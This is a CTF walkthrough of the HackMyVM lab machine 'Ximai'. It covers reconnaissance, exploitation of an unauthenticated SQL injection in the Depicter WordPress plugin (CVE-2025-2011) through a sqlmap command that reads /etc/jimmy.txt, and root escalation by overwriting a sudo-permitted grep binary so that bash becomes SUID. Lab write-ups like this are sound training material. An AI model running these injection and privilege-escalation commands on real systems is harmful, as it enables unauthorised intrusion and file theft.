


**Platform:** HackMyVM\
**Operating System:** Linux

> **Tags:** `Linux` `WordPress` `WPScan` `SQLi` `SQLMap` `File Read` `Restricted Shell` `Sudoers` `Writable Binary`

## INSTALLATION

We download the `zip` containing the `.ova` of the Ximai machine, extract it, and import it into VirtualBox.

We configure the network interface of the Ximai machine and run it alongside the attacker machine.

## HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Ximai, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:05:fa:12      1      60  PCS Systemtechnik GmbH      
 10.0.4.26       08:00:27:ab:56:1b      1      60  PCS Systemtechnik GmbH
```

We identify with high confidence that the victim’s IP is `10.0.4.26`.

## PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.26
```

```bash
nmap -n -Pn -sCV -p22,80,3306,8000 --min-rate 5000 10.0.4.26
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-25 17:51 CEST
Nmap scan report for 10.0.4.26
Host is up (0.00014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
8000/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-generator: WordPress 6.8.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: NeonGrid Solutions
MAC Address: 08:00:27:AB:56:1B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

The scan revealed the following open ports: `22`, `80`, `3306`, and `8000`.

We access port `80` and find the default Apache landing page.

## GOBUSTER

Next, we perform directory `fuzzing` to discover hidden paths and files.

```bash
gobuster dir -u http://10.0.4.26 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.4.26
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              html,zip,php,txt,bak,sh
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10938]
/info.php             (Status: 200) [Size: 85802]
/reminder.php         (Status: 200) [Size: 3163]
Progress: 1183407 / 1543899 (76.65%)
```

We discover two hidden files; one is `info.php`, which could reveal server configuration, but for now we focus on `reminder.php`.



We open `reminder.php` and see a page that states someone left a `.txt` file containing Jimmy’s credentials, but the page does not reveal its location.

We inspect the page source:

```
<p class="hint-text">
            jimmy! Don't forget we need to harden the security on the web server. In case you have forgotten your access details, I've put them in a txt file for you. It's in that place where I put that thing that time.
        </p>

        
```

We find that the cat image path is very suspicious and matches the directory referenced as containing the credentials. Next, we attempt to navigate manually to likely filenames such as `credentials.txt`, `creds.txt`, or `access.txt`.

We eventually find a match:



There is a `symlink` pointing to `/etc/jimmy.txt`, and we cannot read the file.

We cannot progress further here, so we inspect the `WordPress` instance running on port `8000`.

There, we find a message indicating `MySQL` allows local file access, suggesting the database could be abused to read local files, potentially via one of the installed WordPress `plugins`.


## WPSCAN

We use `wpscan` to enumerate `users` and `plugins`, passing an `API token` so it reports known vulnerabilities.

```bash
wpscan --url http://10.0.4.26:8000 --api-token "srCmCxxxxxxxxuzYle5k" --enumerate p
```

Info:

```
[!] 1 vulnerability identified:

[!] Title: Slider & Popup Builder by Depicter < 3.6.2 - Unauthenticated SQLi via 's' Parameter
    Fixed in: 3.6.2
    References:
     - https://wpscan.com/vulnerability/6f894272-3eb6-4595-ae00-1c4b0c0b6564
     - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-2011
     - https://www.wordfence.com/threat-intel/vulnerabilities/id/49b36cde-39d8-4a69-8d7c-7b850b76a7cd

    Version: 3.6.1 (80% confidence)
    Found By: Readme - Stable Tag (Aggressive Detection)
     - http://192.168.3.166:8000/wp-content/plugins/depicter/readme.txt
```

We find an `SQLi` vulnerability in one of the `plugins` and an `adminer` user account.

Next, we search Exploit-DB for a `PoC` related to the `CVE`.

After some trial and error using information from Exploit-DB, we craft a `sqlmap` command and run it against the vulnerable endpoint.

```bash
sqlmap -u "http://10.0.4.26:8000/wp-admin/admin-ajax.php?s=test&action=depicter-lead-index" -p s --sql-query "SELECT LOAD_FILE('/etc/jimmy.txt')" --batch
```

Info:

```
GET parameter 's' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 69 HTTP(s) requests:
---
Parameter: s (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: s=test') AND (SELECT 3466 FROM (SELECT(SLEEP(5)))rZvu) AND ('EmQU'='EmQU&action=depicter-lead-index

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: s=test') UNION ALL SELECT CONCAT(0x717a767171,0x5863575273596b50557945484576537247477462786a4c4958546f79496e516473786a434b71466b,0x7162707871),NULL,NULL,NULL,NULL-- -&action=depicter-lead-index
---
[19:23:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:23:41] [INFO] fetching SQL SELECT statement query output: 'SELECT LOAD_FILE('/etc/jimmy.txt')'
SELECT LOAD_FILE('/etc/jimmy.txt'): 'HandsomeHU\\n'
[19:23:41] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/10.0.4.26'

[*] ending @ 19:23:41 /2025-10-14/
```

In the `sqlmap` output we read the contents of `/etc/jimmy.txt` : `HandsomeHU`.

That is most likely the `password` for the user `jimmy`.

Next, we log in via `SSH`.

## PRIVLEGE ESCALATION

Inside, when we attempt to run commands like `ls` or `sudo -l`, we see the following message:

```
sorry, you are restricted from using this command.
```

After a few minutes with no clear direction, we check the `$PATH`:

```
jimmy@Ximai:~$ echo $PATH
./...
```

The `$PATH` is clearly misconfigured, and fixing it likely resolves the command execution issues.

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

After correcting the environment, we can execute commands normally.

In Jimmy’s home directory we find the `user flag`.

```
flag{user-ffbea0a7-3b01-11f0-9160-000c2921b441}
```

Next, we continue enumeration and locate `wp-config.php` in `/var/www/wordpress/`.

We read `wp-config.php` and find the following:

```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://developer.wordpress.org/advanced-administration/wordpress/wp-config/
 *
 * @package WordPress
 *
 * adminer:adminer123456
 */
```

We find a comment in `wp-config.php` containing the credentials for the user `adminer` that we discovered earlier with `wpscan`.

Naturally, we test those credentials and log in.

```
su adminer
```

Info:

```
adminer@Ximai:/var/www/wordpress$ whoami
adminer
```

We check `sudo` privileges and `SUID` binaries for the user `adminer`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for adminer on Ximai:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User adminer may run the following commands on Ximai:
    (ALL) NOPASSWD: /usr/bin/grep
```

We discover that the `grep` binary is executable with `root` privileges. We leverage this to escalate privileges to `root`.

```bash
echo "chmod u+s /bin/bash" > /usr/bin/grep
sudo /usr/bin/grep
/bin/bash -p
```

Info:

```
bash-5.0# whoami
root
bash-5.0#
```

We are `root`!

In the `/root` directory, we find the `root flag`.

```
flag{root-126e5653-3b02-11f0-b074-000c2921b441}
```
